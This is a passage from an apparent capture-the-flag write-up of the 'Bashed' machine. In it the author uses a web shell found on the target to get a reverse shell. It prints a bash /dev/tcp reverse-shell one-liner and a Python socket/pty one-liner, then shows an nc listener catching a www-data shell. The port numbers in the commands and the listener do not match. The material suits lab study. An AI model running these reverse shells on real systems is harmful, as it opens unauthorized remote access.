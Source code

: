 ![Bashed](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bashed/bashed4.png)

Both of them appear to be the web shell referenced in the post above

![Bashed](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bashed/bashed5.png)

Now that we can run commands on the system I will get a reverse shell to make working with the system a little bit easier. I initially tried a simple bash tcp reverse shell `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1` but that did not work. I next tried using a python one-liner that I had success with.
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
```

After running that command I got a shell back on my listener. (make sure to start a `nc` listener before running the command) 
```
┌──(root㉿kali)-[/opt/linPriv]
└─# nc -lvnp 4444                                  
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.68] 54272
$ whoami
whoami
www-data
```
